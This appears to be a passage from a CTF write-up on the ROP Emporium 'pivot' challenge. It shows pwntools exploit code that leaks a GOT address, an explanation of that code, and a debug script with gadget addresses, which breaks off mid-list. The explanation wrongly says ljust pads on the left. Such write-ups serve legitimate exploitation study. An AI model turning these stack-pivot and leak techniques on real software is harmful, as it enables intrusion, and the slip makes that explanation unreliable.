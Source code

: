 ```python

    io.send(payload_1)
    pwn.info(io.recv(4096))
    io.send(payload_2)

    for x in range(5):
        pwn.info(io.recvline())

    # make the leak left justified, and add null bytes if needed
    leak_foothold = io.recvline().strip().ljust(8,b'\x00')

    pwn.info(leak_foothold)
    pwn.info(f"Unpacked leak: {type(pwn.u64(leak_foothold))}")

    payload_4 = pwn.flat(
        b"A"*padding,
        pwn.p64(pwn.u64(leak_foothold) + lib_got_offset)
    )

    io.send(payload_3)
    pwn.info(io.recv(4096))
    io.send(payload_4)
    pwn.info(io.readrepeat(2))
```
There are two things to note in this script.
The first thing is this line:
```python
leak_foothold = io.recvline().strip().ljust(8,b'\x00')
```
This piece of code strips out any newlines, and then adds trailing null bytes.
This is because the shell were the output came from does not emit extra null bytes.
It also adds them to the left, to make sure that the little endianess is preserved when it is unpacked.
The only other piece of code that has not been explained would be this for loop:
```python
    for x in range(5):
        pwn.info(io.recvline())
```
Receiving like this just makes it easier to parse out the leaked got address.
# Debugging Info
A script was used to debug the payloads. 
## Debug Script:
```python
#!/usr/bin/python3
import pwn
import sys
binary = "./pivot"
pwn.context.binary = binary
pwn.context.encoding = "latin"
pwn.context.log_level = "debug"

gadgets = {
    "pop_rax_ret":0x4009bb,
    "xchg_rsp_rax":0x4009bd,
    "mov_rax_ptr_rax":0x4009c0,
    "add_rax_rbp":0x4009c4,
    "pop_rdi_ret":0x400a33,
    "foothold_function@plt":0x400720,
    "foothold_function@got":0x601040,
    "puts@plt":0x4006e0,
    "main":0x400847
```